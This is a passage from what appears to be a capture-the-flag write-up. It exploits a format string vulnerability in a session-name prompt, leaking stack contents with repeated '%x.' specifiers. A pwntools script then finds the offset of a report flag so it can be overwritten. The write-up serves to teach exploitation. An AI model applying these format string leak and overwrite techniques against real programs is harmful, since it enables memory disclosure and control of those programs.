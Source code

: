 Why yes, yes we can. Let's dump a good portion of the stack and see what we have. We'll start by sending 70 `%x.`. Note, we add the period at the end only to allow easier splitting of our resulting string. This allows for easier correlation between the individual format strings and their output.

```
ENTER COMMAND: SELECTED: 3
ENTER NEW SESSION NAME: --------------------------------------------------------------
SESSION: bf9a747c.104.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.ff0a2e78.b77a3c20.bf9a75cc.0.b77a3000.b77a3ac0.b77a4898.b75f7940.b76690b5.b77a3ac0.59.4e.59.b77a38a0.b77a3000.b77a3ac0.
\xff <z\xb7�u\x9a\xbf
  AUTH   [Y]    REPORT [N]    MENU   [Y]  
--------------------------------------------------------------
```

We are looking at a lot of repeating values here. 

```
>>> from pwn import *
>>> unhex('252e7825')[::-1]
'%x.%'
```

Looks like those repeating characters are our format string buffer. There is one segment in this format string that is interesting:

```
b77a3ac0.59.4e.59.b77a38a0.b77a3000.b77a3ac0.
>>> for item in 'b77a3ac0.59.4e.59.b77a38a0.b77a3000.b77a3ac0.'.split('.'):
        unhex(item)

'\xb7z:\xc0'
'Y'
'N'
'Y'
'\xb7z8\xa0'
'\xb7z0\x00'
'\xb7z:\xc0'
```

The `Y, N, Y` looks very similar to the `Y, N, Y` of the dialog shown from the command menu. Let's grab where in the format string the `4e` is in order to know how much to overflow.

```
# Update Session name
r.sendline('3')

# Send format string
shellcode = '%x.' * 70

# Wipe the input buffer so we aren't reading old data
r.clean()
r.sendline(shellcode)
r.recvuntil("SESSION: ")

# Grab the format string output
session_name = r.recvuntil('\n').split('.')

# Isolate the 'N' (0x4e) in our format string
n_index = session_name.index('4e')
log.info("Report 'N' at offset {}".format(n_index))

```

